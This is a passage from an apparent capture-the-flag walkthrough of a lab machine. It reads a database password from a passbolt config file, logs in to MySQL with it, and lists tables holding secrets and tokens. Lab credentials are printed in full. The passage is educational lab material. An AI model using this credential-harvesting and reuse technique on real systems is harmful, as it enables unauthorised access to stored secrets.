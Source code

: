 The password is merrychristmas.

### Access passbolt

On visiting `https://passbolt.bolt.htb` and entering `eddie@bolt.htb`, it returns a different page:

![image-20210908203440001](https://0xdfimages.gitlab.io/img/image-20210908203440001.png)

My first thought is to check the `/var/mail/eddie` file, but there’s no new email there.

Still, I can reconstruct the link that would have been send with database access. The code in `/etc/passbolt/passbolt.php` was:

```

    // Database configuration.                                                     
    'Datasources' => [
        'default' => [
            'host' => 'localhost',
            'port' => '3306', 
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
        ],
    ],

```

So I can connect with:

```

eddie@bolt:~$ mysql -u passbolt -p'rT2;jW7<eY8!dX8}pQ8%' passboltdb
...[snip]...
mysql> 

```

There are a handful of tables:

```

mysql> show tables;
+-----------------------+
| Tables_in_passboltdb  |
+-----------------------+
| account_settings      |
| action_logs           |
| actions               |
| authentication_tokens |
| comments              |
| email_queue           |
| entities_history      |
| favorites             |
| file_storage          |
| gpgkeys               |
| groups                |
| groups_users          |
| organization_settings |
| permissions           |
| permissions_history   |
| phinxlog              |
| profiles              |
| resource_types        |
| resources             |
| roles                 |
| secret_accesses       |
| secrets               |
```